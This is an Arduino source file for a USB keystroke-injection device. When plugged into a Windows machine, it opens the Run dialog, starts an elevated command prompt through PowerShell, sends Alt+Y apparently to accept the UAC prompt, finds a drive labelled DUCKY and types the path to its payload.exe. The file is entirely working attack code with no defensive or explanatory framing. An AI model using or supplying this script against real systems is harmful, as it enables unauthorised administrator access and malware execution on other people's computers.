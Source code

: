 #include <HID-Project.h>
#include <HID-Settings.h>

// Utility function
void typeKey(int key){
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

void setup()
{
  // Start Keyboard and Mouse
  AbsoluteMouse.begin();
  Keyboard.begin();

  // Start Payload
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press(114);
  Keyboard.releaseAll();

  delay(200);

  Keyboard.print("powershell Start-Process cmd.exe -Verb runAs");

  typeKey(KEY_RETURN);

  delay(2000);

  Keyboard.press(KEY_LEFT_ALT);
  Keyboard.press(121);
  Keyboard.releaseAll();

  delay(500);

  Keyboard.print("for /f %d in ('wmic volume get driveletter^, label ^| findstr \"DUCKY\"') do set duck=%d");

  typeKey(KEY_RETURN);

  Keyboard.print("%duck%\\payload.exe");

  // End Payload

  // Stop Keyboard and Mouse
  Keyboard.end();
  AbsoluteMouse.end();
}

// Unused
void loop() {}